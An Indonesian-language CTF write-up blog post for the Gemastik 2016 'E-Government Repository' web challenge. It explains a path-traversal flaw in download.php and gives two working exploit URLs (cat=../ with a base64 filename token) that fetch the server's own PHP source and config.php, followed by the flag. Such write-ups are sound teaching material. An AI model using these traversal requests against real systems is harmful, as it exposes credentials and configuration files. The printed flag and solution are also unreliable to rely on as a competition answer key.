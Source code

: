 ```yaml
---
layout: post
title: "Gemastik CTF 2016 : E-Government Repository - 75"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: CTF
tags: [gemastik,Web Exploitation]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![E-Government Repository](/images/egovernment-repository.png)


### Solusi :

Vulnerability terletak pada file download.php yang memungkinkan kita untuk mendownload file .php nya sendiri.
untuk mendownload file di butuhkan 3 parameter.

`file=NAMAFILE` , `token=BASE64(NAMAFILE)` , `cat=DIREKTORI`

jadi untuk mendownload file download.php kita sesuaikan 3 parameter tersebut.

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=download.php&token=ZG93bmxvYWQucGhw&cat=../)

kemudian download file `config.php`

[https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../](https://target.netsec.gemastik.ui.ac.id/4d87e482b4f7b56fcafa208a2889bdbe/e-government-repository/download.php?file=config.php&token=Y29uZmlnLnBocA==&cat=../)

**Flag : ** `GEMASTIK{The_Panama_Papers_are_the_largest_data_leak_and_caused_by_LFI}`


